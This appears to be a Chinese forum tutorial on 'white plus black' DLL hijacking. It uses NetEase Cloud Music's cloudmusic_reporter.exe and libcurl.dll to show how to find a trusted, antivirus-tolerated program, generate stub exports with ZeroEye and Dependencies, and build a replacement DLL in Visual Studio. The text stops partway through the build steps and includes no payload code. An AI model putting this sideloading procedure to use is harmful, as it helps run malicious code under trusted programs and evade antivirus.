# [原创] 某易云点击弹计算器？一文教会你背后的所有知识——DLL劫持

- 原帖：[https://www.52pojie.cn/forum.php?mod=viewthread&tid=2071091](https://www.52pojie.cn/forum.php?mod=viewthread&tid=2071091)
- 抓取时间：2026-11-01T21:59:36

本文内容仅用于授权的安全研究、渗透测试和知识风享。严禁用于任何非法或未经授权的活动。

## 引言

朋友说遇到一个某易云软件，说是破解版的，下载下来点击之后发现弹出计算器，问我怎么回事，简单看了下原来是个白加黑dll劫持啊，简单，其实不仅仅某易云可以所有调用dll的程序都可以。这就教会你。让你也能秀别人一脸！

## 一、dll文件

DLL文件，全称为动态链接库（Dynamic Link Library），是Windows操作系统中的一种文件类型。它们是由多个相对独立的代码或资源组成的库，可以被多个程序在运行时共享。DLL文件的主要作用是提高内存管理效率和节约磁盘空间，因为它们允许程序在需要时才将这些库加载到内存中。

### 1. DLL文件的作用

DLL文件中存储的是各类程序的函数（子过程）实现过程。当程序需要调用某个函数时，相关的DLL文件就会被加载，然后程序可以获取函数的地址并进行调用。这种方式的好处在于，程序不需要在启动时加载所有的代码，只有在需要某个函数时才从DLL中提取，这样可以减小程序的体积，并且提高运行效率。

### 2. DLL文件的共享性

一个应用程序可以使用多个DLL文件，而一个DLL文件也可能被不同的应用程序使用。这样的DLL文件被称为共享DLL文件。通过使用DLL，程序可以实现模块化，由相对独立的组件组成。例如，一个计帐程序可以按模块来销售，只有在安装了相应模块时，这些模块才会在运行时加载到主程序中。

### 3. DLL文件的依赖性

当一个程序或DLL使用其他DLL中的函数时，就会创建依赖关系。这意味着程序不再是独立的，如果依赖的DLL文件出现问题，程序也可能遇到问题。例如，如果依赖的DLL文件被升级或删除，或者被旧版本覆盖，都可能导致程序无法运行。这也是为什么会出现dll劫持之类的了，

### 4. dll劫持产生原因

DLL劫持是一种利用Windows系统加载DLL文件顺序的技术。Windows系统在加载DLL文件时，会按照一定的顺序查找所需的DLL文件。如果攻击者在程序目录下放置一个恶意的DLL文件，并且该文件名与程序所需的DLL文件名相同，系统就会优先加载攻击者的DLL文件，从而执行恶意代码。

白加黑是一种高级的DLL劫持技术，利用合法的白程序（如微信、QQ等）来执行恶意的黑行为。通过替换白程序所调用的DLL文件，实现恶意代码的执行。

## 二、白加黑dll劫持

### 1. 判断

主要判断的内容有两点，首先这个程序是不是白程序，可以简单理解为我们这个程序是否能够在正常情况下运行，会不会被杀毒软件拦截，还有就是是否调用了非系统自带的dll文件，如果本身就会被杀毒软件拦截，那整个程序就是个黑的，再去做dll劫持的意义也不大。第二个要判断的就是这个程序的哪些dll文件可以被用来做dll劫持的，要想做成dll劫持，那么程序一定要在运行的时候使用这个dll，两种方法，简称为原始法和工具法吧。

先看看原始法吧，原始法不依靠任何工具，单纯的靠拖拽文件来进行判断，这里我们用某易云音乐来举个例子。下载好我们的某易云音乐安装到我们的特定文件夹，

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk3NHxjYjRjNjk4NXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图1（`Pasted image 20251206172521.png`，249.85 KB，下载次数：0；2025-12-6 17:25 上传）

很明显可以看出存在三个exe文件，这里我们不去进行判断哪个调用了dll文件，我们直接把三个exe文件拖出来到一个单独的文件夹，（通常情况下可以先把主程序拖出来运行看看）这里最主要的点就是让程序在没有任何dll的情况下运行，缺少的dll库他会自己提示我们，像下图这样

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk3NXwzMGNiZmRmNXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图2（`Pasted image 20251206172636.png`，76.54 KB，下载次数：0；2025-12-6 17:26 上传）

通过提示的内容由于找不到 `libcurl.dll`，无法继续执行代码。重新安装程序可能会解决此问题,说明 `libcurl.dll` 在整个程序运行的过程中是必不可少的，这个也就是我们所要找的可以用来dll劫持的dll源文件。同时也表明了需要这个程序的 `cloudmusic_reporter.exe` 这个程序。

看完我们朴实无华的原始法，接着看我们的工具法，这里用到的工具是 `ZeroEye`，使用工具扫一下就能够成功得出了，(会生成一个单独的文件夹可以去文件夹里查看，帮助文档里面写的很清楚，这里就不过多赘述了）

`ZeroEye` 项目地址：[https://github.com/ImCoriander/ZeroEye](https://github.com/ImCoriander/ZeroEye)

两种方法都可以，不放心的话可以进行一下验证，验证方式也很好验证，上面两个方法都在跟我们说明 `cloudmusic_reporter.exe` 可以看作白文件，必须的dll是 `libcurl.dll`，我们将这两个单独拿出来放到一个文件中，运行看看是否弹窗就好了，有的点击后会出现日志文件。

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk3NnxjODYxNDkyNHwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图3（`Pasted image 20251206172726.png`，91.24 KB，下载次数：0；2025-12-6 17:27 上传）

### 2. 开始劫持

弄清楚我们的要劫持的对象后就可以开启我们愉快的劫持了，这里我们需要用到一个工具 `Dependencies`,什么没听过这个怎么办？没关系，我们这里用到的他的功能不多工具上手还是比较容易的，具体的工具介绍放在结尾了，

`Dependencies` 工具下载地址：[https://github.com/lucasg/Dependencies](https://github.com/lucasg/Dependencies)

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk3N3w1NmViZmQxZXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图四（`Pasted image 20251206172814.png`，13.17 KB，下载次数：0；2025-12-6 17:28 上传）

成功拖入后界面如图：

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk3OHxmMzgxMDk2MXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图5（`Pasted image 20251206172856.png`，225.73 KB，下载次数：0；2025-12-6 17:29 上传）

这个时候选中我们拖入的程序，右键选择 `AHeadLib Codegen`，

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk3OXxmMGE1ZjJhN3wxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图6（`Pasted image 20251206172931.png`，158.62 KB，下载次数：0；2025-12-6 17:29 上传）

这个功能会帮助我们根据选中 DLL 的导出函数表（`Exports`），自动生成一个 C/C++ 头文件（`.h`） 和对应的源文件（`.c/.cpp`） 的代码（文章末尾有补充）选择一个纯英文的目录进行保存，保存完成会出现一个弹窗提示我们成功保存。保存完成后打开刚刚的文件夹，会发现多出几个文件，通常都是一个头文件（`.h`），一个源文件（`.c/.cpp`）,一个汇编源文件（`.asm`）。

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk4MHw0ZDcyNzhlZnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图7（`Pasted image 20251206172959.png`，42.21 KB，下载次数：0；2025-12-6 17:30 上传）

完成上述步骤后就可以正式开始制作我们的黑dll了，使用Visual Studio创建新项目选择动态链接库（最好选用纯英文路径）。

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk4MnxkMDlkMDJmZXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图8（`Pasted image 20251206173036.png`，42.01 KB，下载次数：0；2025-12-6 17:30 上传）

选择完路径进行创建即可，创建完成后会有四个文件，两个头文件，两个源文件

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk4NXwzYTRhNGNmNnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图9（`Pasted image 20251206173105.png`，23.26 KB，下载次数：0；2025-12-6 17:31 上传）

将我们之前导出的函数表拖入到新创建的路径中

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk4NnwzOWQ4ZTFhMnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图10（`Pasted image 20251206173139.png`，147.81 KB，下载次数：0；2025-12-6 17:31 上传）

在Visual Studio中添加我们导出的函数表，右键之后点击添加，选择现有项。

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk4N3wzNWFiZjEwZXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图11（`Pasted image 20251206173214.png`，88.44 KB，下载次数：0；2025-12-6 17:32 上传）

将我们之前导出的文件添加进去，注意头文件和源文件的对应即可（`.asm` 文件后缀是汇编语言源文件），最终效果图

[](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk4OHwzOTZmYzY2OXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)

图12（`Pasted image 20251206173239.png`，135.18 KB，下载次数：0；2025-12-6 17:32 上传）

然后将Visual Studio中的编译方式选择为 `Release`,架构根据自己要dll劫持的程序进行选择即可。这里的我们使用的是 `x64` 架构来作为例子。



图13（`Pasted image 20251206173314.png`，81.6 KB，下载次数：0）


# `libcurl.dll` 劫持与功能代码注入

## 修改 `libcurl_jump.asm` 并设置自定义生成工具

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk4OXw2MjgwZGI4M3wxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图13（2025-12-6 17:33 上传）

`libcurl.c` 这个文件运行的时候会获取 `dll` 内的函数并将其保存到指针内，指针会去改变原本的函数地址进行链接，使用汇编的放式进行跳转，也就是 `libcurl_jump.asm` 文件中的内容。如图中的各种 `jmp` 跳转



`Pasted image 20251206173347.png`（123.8 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5MHwyOTE0MmRiNnwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图14（2025-12-6 17:33 上传）

而我们做简单的 `dll` 劫持并不需要这个，这里只要将其全部删除掉即可



`Pasted image 20251206173416.png`（97.85 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5MXxjOTg3YWFlYXwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图15（2025-12-6 17:34 上传）

> 补充：这里还需要注意一点，在 `x86` 架构中/或者不同的软件当中会多出一些东西，仍然只删除跳转的代码就好。

这里将所有跳转的代码删除完之后，对头文件进行以下设置。在 `libcurl_jump.asm` 文件最开始的地方由工具直接生成的设置方法。



`Pasted image 20251206173458.png`（138.19 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5MnwzN2NhZTMxNHwxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图16（2025-12-6 17:35 上传）

根据 `libcurl_jump.asm` 中的内容进行设置即可



`Pasted image 20251206173548.png`（95.76 KB，下载次数：0）

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjgxODk5M3w3M2EzZWRiN3wxNzkzNTcwMzczfDE2ODA4NnwyMDcxMDkx&nothumb=yes)  
图17（2025-12-6 17:35 上传）

按照他给出的文字对属性进行修改，

